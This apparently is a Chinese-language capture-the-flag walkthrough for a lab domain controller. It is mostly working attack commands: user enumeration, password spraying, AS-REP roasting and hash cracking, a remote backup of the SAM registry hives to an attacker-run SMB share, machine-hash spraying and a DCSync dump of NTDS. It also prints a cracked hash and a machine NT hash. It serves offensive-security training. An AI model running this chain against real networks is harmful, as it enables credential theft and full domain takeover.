








# DC02

还是`rustscan`扫描

```bash
$ rustscan -a 192.168.1.114 -- -Pn -sC -sV
```



类似DC01开放端口，域为`SOUPEDECODE.LOCAL`

`/etc/hosts`添加

```
192.168.1.114 SOUPEDECODE.LOCAL DC01.SOUPEDECODE.LOCAL
```

尝试进行`smb`检测是否存在匿名登录与来宾登录

```bash
$ smbmap -u anonymous -H SOUPEDECODE.LOCAL
[*] Detected 1 hosts serving SMB
[*] Established 1 SMB connections(s) and 0 authenticated session(s)
[!] Something weird happened on (192.168.1.114) Error occurs while reading from remote(54) on line 1015
[*] Closed 1 connections
```

## Kerberos域用户枚举

利用常见用户名作为字典，使用[kerbrute](https://github.com/ropnop/kerbrute)对`Kerberos`身份验证来枚举域中可能存在的用户

```bash
$ kerbrute userenum -d SOUPEDECODE.LOCAL -t 50 --dc DC01.SOUPEDECODE.LOCAL ~/Desktop/secs/tools/dict/SecLists/Usernames/xato-net-10-million-usernames.txt -o users.txt
```



提取用户名并转为小写

```bash
$ cat users.txt | grep '@' | cut -d ' ' -f8 | cut -d '@' -f1 | tr 'A-Z' 'a-z' > users2.txt
```

## 密码喷涂

尝试利用用户名作为密码进行密码喷涂

`--no-bruteforce` 禁用暴力破解尝试

`--continue-on-success` 在成功验证某个用户名和密码后，程序继续运行，不会因为一个成功的验证就停止所有后续操作

```bash
$ crackmapexec smb SOUPEDECODE.LOCAL -u users2.txt -p users2.txt --no-bruteforce --continue-on-success
```



## AS-REP Roasting

### rid枚举域内的其他用户

```bash
$ crackmapexec smb SOUPEDECODE.LOCAL -u 'charlie' -p 'charlie' --rid-brute > domain_users.txt
```

导出用户名

```bash
$ cat domain_users.txt | cut -d '\' -f2 | cut -d ' ' -f1 > domain_users2.txt
```

### 枚举禁用kerberos域认证的用户

```bash
$ python3 GetNPUsers.py SOUPEDECODE.LOCAL/  -dc-ip 192.168.1.114 -no-pass -usersfile ~/Downloads/domain_users2.txt | grep -v '[-]'

$krb5asrep$23$zximena448@SOUPEDECODE.LOCAL:e7af19ace3789d5617fa213a0d465783$483e5b53f8c0024a2c2e2d0182404b3d425644354a4e0fd73b82a5254458d579b8277647fd4abcfd86c14d1752d45e77ed1bbd58385420049b3a57f2b8d856f8cc0e788a939bbb0b1ed72e3a737dc6d4e39c7fcee28e0e098e5e60b98fb936112815e62c64cbfec1000625c35cb292d84a76bc72a21a0e47d47e944367bc7a766c869a542710ae96bcb0c20fcf51f10e7b10cf52ec686c2837fe799a00c7c5ba2b67a455c5ed3cf1302a925a8f3bf692ef67ca4036730fdf430647c111de6c4045594d1b02ac55012350b38006ab9ee2540849ed4ac77f83e08817c61cdaea07b27c63e2d26af7a39889b16aae9a157a9d84872a1087
```

### 破解hash

```bash
$ hashcat -a 0 -m 18200 '$krb5asrep$23$zximena448@SOUPEDECODE.LOCAL:e7af19ace3789d5617fa213a0d465783$483e5b53f8c0024a2c2e2d0182404b3d425644354a4e0fd73b82a5254458d579b8277647fd4abcfd86c14d1752d45e77ed1bbd58385420049b3a57f2b8d856f8cc0e788a939bbb0b1ed72e3a737dc6d4e39c7fcee28e0e098e5e60b98fb936112815e62c64cbfec1000625c35cb292d84a76bc72a21a0e47d47e944367bc7a766c869a542710ae96bcb0c20fcf51f10e7b10cf52ec686c2837fe799a00c7c5ba2b67a455c5ed3cf1302a925a8f3bf692ef67ca4036730fdf430647c111de6c4045594d1b02ac55012350b38006ab9ee2540849ed4ac77f83e08817c61cdaea07b27c63e2d26af7a39889b16aae9a157a9d84872a1087' ~/Desktop/secs/tools/dict/rockyou.txt
```



### bloodhound

```bash
$ bloodhound-python -d SOUPEDECODE.LOCAL -u zximena448 -p internet --zip -c all -dc DC01.SOUPEDECODE.LOCAL -ns 127.0.0.1
```





## 获取SAM

### 远程备份SAM

可以看到`ZXIMENA448`属于`BACKUP OPERRATORS`组的成员。

此组可以备份存储凭据的`SAM`数据库。但由于该用户无法登录`DC01`，我们用`Impacket`工具远程备份此数据库。我们需要先启动一个`SMB`服务器，然后将`SAM`数据库备份从服务器上传到我们的攻击机。

```bash
$ python3 smbserver.py -smb2support share .
```

设置`SMB`服务器后，我们利用`impacket-reg`工具远程备份SAM注册表项。

`192.168.1.93`为本机`ip`

```bash
$ python3 reg.py -dc-ip 192.168.1.114 SOUPEDECODE.LOCAL/'zximena448':'internet'@192.168.1.114 backup -o '\\192.168.1.93\share'
```



### 转储SAM

```bash
$ python3 secretsdump.py -sam SAM.save -system SYSTEM.save -security SECURITY.save LOCAL
```



发现`Administrator`的`hash`和机器`hash`，使用`Administrator`登录失败了,但是还有机器账户的`hash ($MACHINE.ACC)`

```
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:9b0ceb3f3395745ab0d12a838cb10f4b
```

### 利用机器hash进行密码喷射

进行密码喷射之前，我们还需要获取目标的所有机器账户列表

我们可以利用`Bloodhood`收集的压缩包里面的`computer.json`文件获取

```bash
# 提取机器账户名
$ cat 20250421154045_computers.json | jq .  | grep samaccountname | cut -d '"' -f4 > machines.txt
# 使用crackmapexec进行密码喷射
$ crackmapexec smb DC01.SOUPEDECODE.LOCAL -u machines.txt  -H 9b0ceb3f3395745ab0d12a838cb10f4b | grep -v '[-]'
```


## DCSync攻击

DC01$ 是 Administrator 组的成员，我们可以使用此组成员身份权限对域控制器执行 [DCSync](https://c1trus.top/24-渗透/渗透姿势库/dcsync.html#_0) 攻击。

>  在Enterprise Admin 组 也可以进行DCSync攻击能够执行能够执行 replication synchronization 权限 也可以

```bash
$ crackmapexec smb DC01.SOUPEDECODE.LOCAL -u 'DC01$' -H 9b0ceb3f3395745ab0d12a838cb10f4b --ntds>ntds.txt
```

--ntds 获取`NTDS.dit`文件的内容这个文件是 Windows 域控的 Active Directory 数据库，包含了所有域账户的信息，包括密码哈希、Kerberos 密钥等敏感信息

